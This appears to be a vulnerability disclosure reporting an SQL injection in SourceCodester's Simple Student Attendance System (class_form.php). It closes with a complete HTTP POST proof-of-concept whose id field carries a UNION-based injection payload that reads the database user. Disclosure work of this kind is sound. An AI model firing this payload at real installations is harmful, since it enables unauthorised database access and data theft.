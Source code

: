 **BUG_Author:**

Daydust

**Vendor:**

[SourceCodester](https://www.sourcecodester.com/php/17018/simple-student-attendance-system-using-php-and-mysql.html)

**Software:**

[SourceCodester](https://www.sourcecodester.com/php/17018/simple-student-attendance-system-using-php-and-mysql.html)

**Vulnerability File:**

/php-attendance/modals/class_form.php

**Description:**
Simple_Student_Attendance_Syste Exists SQL Injection Vulnerability on class_form.php Page

Attackers can use SQL injection to bypass the authentication and authorization mechanisms of web applications and retrieve the content of the entire database. SQLi can also be used to add, modify, and delete records in a database, thereby affecting data integrity. In appropriate cases, attackers can also use SQLi to execute operating system commands, which can then be used to launch further attacks.


```http
POST /php-attendance/modals/class_form.php HTTP/1.1
Host: 172.21.48.180
Content-Length: 4
Accept: */*
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.0.0 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://172.21.48.180
Referer: http://172.21.48.180/php-attendance/?page=class_list
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: PHPSESSID=tpml2ej1cjqohlua4pf82lbn2l
Connection: close

id=-1' union select 1,user(),3,4#
